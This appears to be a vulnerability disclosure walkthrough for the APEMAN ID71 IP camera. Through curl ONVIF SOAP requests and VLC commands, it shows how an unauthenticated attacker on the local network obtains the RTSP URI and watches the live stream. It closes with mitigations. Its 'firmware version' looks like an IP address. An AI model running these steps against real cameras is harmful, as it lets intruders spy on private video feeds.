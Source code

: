 ### APEMAN ID71 — Unauthenticated RTSP Stream Walkthrough

This walkthrough shows how an unauthenticated attacker on the same network can leverage ONVIF endpoints to obtain the RTSP URI and watch the live video stream, without credentials.

![Live camera stream](./camera.png)

Firmware version: "218.53.203.117"

### Prerequisites
- A host on the same network as the camera
- curl and an XML pretty-printer (e.g., `xmllint`) or any SOAP-capable client
- An RTSP viewer (e.g., VLC)

### Step 1 — Identify ONVIF service
The camera exposes ONVIF on port 10080. Replace `<camera-ip>` with the device IP.

```bash
curl -s -X POST http://<camera-ip>:10080/onvif/device_service \
  -H 'Content-Type: application/soap+xml; charset=utf-8' \
  -H 'SOAPAction: "http://www.onvif.org/ver10/media/wsdl/GetProfiles"' \
  -d '
<soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope" xmlns:wsdl="http://www.onvif.org/ver10/media/wsdl">
  <soap:Header/>
  <soap:Body>
    <wsdl:GetProfiles/>
  </soap:Body>
</soap:Envelope>
' | xmllint --format -
```

From the response, note a profile token (e.g., `PROFILE_000`).

### Step 2 — Request the RTSP URI for the profile
Use the profile token found above.

```bash
curl -s -X POST http://<camera-ip>:10080/onvif/device_service \
  -H 'Content-Type: application/soap+xml; charset=utf-8' \
  -H 'SOAPAction: "http://www.onvif.org/ver10/media/wsdl/GetStreamUri"' \
  -d '
<soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope" xmlns:wsdl="http://www.onvif.org/ver10/media/wsdl">
  <soap:Header/>
  <soap:Body>
    <wsdl:GetStreamUri>
      <wsdl:ProfileToken>PROFILE_000</wsdl:ProfileToken>
    </wsdl:GetStreamUri>
  </soap:Body>
</soap:Envelope>
' | xmllint --format -
```

The response includes a URI similar to:

```xml
<trt:GetStreamUriResponse>
  <trt:MediaUri>
    <tt:Uri>rtsp://<camera-ip>:10554/udp/av0_0</tt:Uri>
  </trt:MediaUri>
</trt:GetStreamUriResponse>
```

### Step 3 — View the stream (no credentials required)
Open the returned RTSP URI in your player.

```bash
# UDP
vlc rtsp://<camera-ip>:10554/udp/av0_0

# TCP
vlc rtsp://<camera-ip>:10554/tcp/av0_0
```

If successful, the live video feed plays immediately.

### Why this works
- ONVIF endpoints return RTSP stream URIs without authentication
- The RTSP server accepts connections without credentials

### Recommended mitigations
- Require authentication on ONVIF media and device services
- Enforce credentials on RTSP streaming endpoints
- Restrict access with network ACLs/VLAN segmentation
- Disable ONVIF if unused; limit to trusted management hosts
- Update firmware if a fix is available


